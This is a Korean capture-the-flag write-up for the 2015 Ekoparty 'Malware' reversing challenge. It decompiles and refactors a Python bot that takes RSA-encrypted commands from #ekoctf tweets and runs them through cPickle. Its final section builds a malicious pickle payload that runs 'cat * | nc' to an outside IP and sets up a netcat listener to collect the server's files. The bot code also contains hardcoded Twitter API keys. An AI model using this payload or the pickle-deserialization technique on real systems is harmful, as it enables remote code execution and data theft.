 ============================================================================================================
[2015_ekoparty] [REV] Malware
============================================================================================================

Flow Chart
================================================================================================================

.. graphviz::

    digraph foo {
        a -> b;
        
        a [shape=box, label="uncompyle2"];
        b [shape=box, label="python decode"];
    }

|

디컴파일 (pyc -> py)
============================================================================================================

압축 파일을 다운 받은 뒤 풀어보니 pyc파일 형식입니다.

pyc를 `uncompyle2`_ 를 통해 디컴파일 해줍니다. 

.. _`uncompyle2`: https://github.com/wibiti/uncompyle2

디컴파일한 코드는 다음과 같습니다.

.. code-block:: python

    # Embedded file name: ekobot_final.py
    import os
    import sys
    import httplib2
    import cPickle
    from Crypto.PublicKey import RSA
    from base64 import b64decode
    from twython import Twython
    
    if 0:
        i11iIiiIii
        OO0o = 'ekoctf'
    
    if 0:
        Iii1I1 + OO0O0O % iiiii % ii1I - ooO0OO000o
    if len(sys.argv) != 2:
        os._exit(0)
        if 0:
            IiII1IiiIiI1/ iIiiiI1IiI1I1

    ##### 중략 #####

    IiIi[0:5] == 'eko11':
        cPickle.loads(IiIiIi[5:])
        os._exit(0)
        if 0:
            iii1II11ii.Oo.iIiiiI1IiI1I1.ii1I

        except Exception as OOooO:
            print str(OOooO)
            if 0:
                ii1II11I1ii1I+ ooO0OO000o % i11iIiiIii.o0oOoO00o - IiII1IiiIiI1

    oo(oo00)

|

리펙토링
============================================================================================================

디컴파일 코드 가독성을 높이기위해 변수명을 수정하고, 필요없는 코드(if 0:)들을 수정해줍니다.

.. code-block:: python

    import os
    import sys
    import httplib2
    import cPickle
    from Crypto.PublicKey import RSA
    from base64 import b64decode
    from twython import Twython

    if len(sys.argv) != 2:
        os._exit(0)

    input_file = sys.argv[1]

    def read_file1():
        input = 0
        if os.path.isfile(input_file):
            try:
                fileopen = open(input_file, 'r')
                input = int(fileopen.readline(), 10) 
            except:
                input = 0

        return input

    def main(twid):
        try:
            fileopen = open(input_file, 'w')
            fileopen.write(str(twid))
        except:
            print 'error'

    def response_data(url):
        httplist = httplib2.Http('')
        res_header, res_data = httplist.request(url, 'GET')
        if res_header.status == 200:
            try:
                if res_header['content-type'][0:10] == 'text/plain':
                    return res_data
                return 'Err'
            except:
                return 'Err'

        else:
            return url

    def dec(cipher_text):
        try:
            rsa_key = RSA.importKey(open('ekobot.pem').read())
            decode_data = b64decode(cipher_text)
            iiiI11 = rsa_key.decrypt(decode_data)
            return iiiI11
        except Exception as error_page:
            print str(error_page)
            return 'Err'

    twitter = Twython('ienmDwTNHZVR9si4SzeCg1glB', 'TTlOJrwq5o9obnRyQXRyaOkRoYUBTrCzN9j9IHX0Bc4dS2xBHN', oauth_version=2)
    twitter_token = twitter.obtain_access_token() 
    twitter = Twython('ienmDwTNHZVR9si4SzeCg1glB', access_token=twitter_token)

    input = read_file1()
    searching = twitter.search(q='#ekoctf', rpp='250', result_type='mixed', since_id=input) 


    for status1 in searching['statuses']:
        if status1['id'] > input:
            input = status1['id']

        n = 0
        try:
            for hashtag1 in status1['entities']['hashtags']:
                if hashtag1['text'] == 'ekoctf':
                    n = 1

            if n == 1:
                for url1 in status1['entities']['urls']:
                    if os.fork() == 0:
                        decrypt = dec(response_data(url1['url']))
                        if decrypt[0:5] == 'eko11':
                            cPickle.loads(decrypt[5:])
                        os._exit(0)

        except Exception as error_page:
            print str(error_page)

    main(input)
 
|


소스 분석
============================================================================================================

이제 코드를 확인해보면 Twython이라는 모듈을 먼저 쓰고 있는걸 볼 수 있습니다. Twitter의 공식 API의 기본 래퍼를 파이썬으로 제작한 것입니다. 
코드 진행 순서는 다음과 같습니다.

- Twitter에 ekoctf 태그로 url부분에 대한 검색을 통해 content-type이 text/plain일 경우, reponse data를 추출

- 추출한 response data를 rsa private key ekobot.pem을 통해 복호화 진행

- 복호화한 데이터 header 값에 'eko11'이 있을 경우, 그 뒤 복호화한 데이터를 cPickle.loads을 통해 명령 실행

twitter를 통해 원하는 명령을 실행할 수 있는 프로그램 형태입니다. 
우선 Public Key를 알아야 해당 문제를 해결할 수 있기 때문에 twitter에서 #ekoctf로 검색을 하니 다음 주소에 Public Key가 있는 걸 확인할 수 있습니다. (https://twitter.com/NullLifeTeam/status/657208358408204288))

.. code-block:: text

    -----BEGIN PUBLIC KEY-----
    MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAmWw84H8BSPG1Ispn1hBP
    WZ4ORxniLhOl76aOAsGsqdRZJyL+PFLWedGUx0ELwzf3vWQ2wMDwN37MZYWdS4z8
    WT6P4FRtK09UtDgqNUQdx49WBqDf2GmIT+uBwMQBUCe3x+RTVcwDzA1I0mPtJj3K
    6bGdmSSBZjgc6MA4rJil7xdSVP5Pedb8MZMKk/5tXmFl3gFjykkUfG+DbmsxulZ4
    8D+IoIU6bVWAkael+ftZtDWY43XkezD2swV01Eaw4J7MzBakPDA6KipxNhKQZ2xo
    eEsP2p8L67qF48eUbxI1ukcrqdy0c92rSihmChGBmHQ2AREshtTTLpM24/Nrirje
    /QIDAQAB
    -----END PUBLIC KEY-----

|

역수행
============================================================================================================

이제 Public Key를 이용해 사용하고자 하는 명령을 RSA로 암호화하여 , twitter에 raw data 형식으로 글을 올리면 됩니다.

본 문서에서는 cat *|nc local_ip 8000 라는 명령을 통해 해당 서버 디렉토리에 파일들을 볼 수 있도록 하겠습니다. 여기서 주의할 점은 파일 명령 앞부분에 "eko11"을 넣어주어야 정상적으로 서버에서 복호화 진행이 될 수 있습니다.

.. code-block:: python

    from Crypto.PublicKey import RSA
    from base64 import b64decode,b64encode
     
    key=RSA.importKey(open('pub.pem').read())
    exploit="eko11"+"cos\nsystem\n(S'cat * | nc 182.70.222.238 8000'\ntR.'\ntR."
    txt=key.encrypt(exploit,32)[0]
    final=b64encode(txt)
    print final
 
그리고 local에서는 while true; do nc -l -n -v -p 8000 ; done 이라는 명령을 입력하고 기다리면 해당 서버 디렉토리 파일 내용을 확인할 수 있습니다.

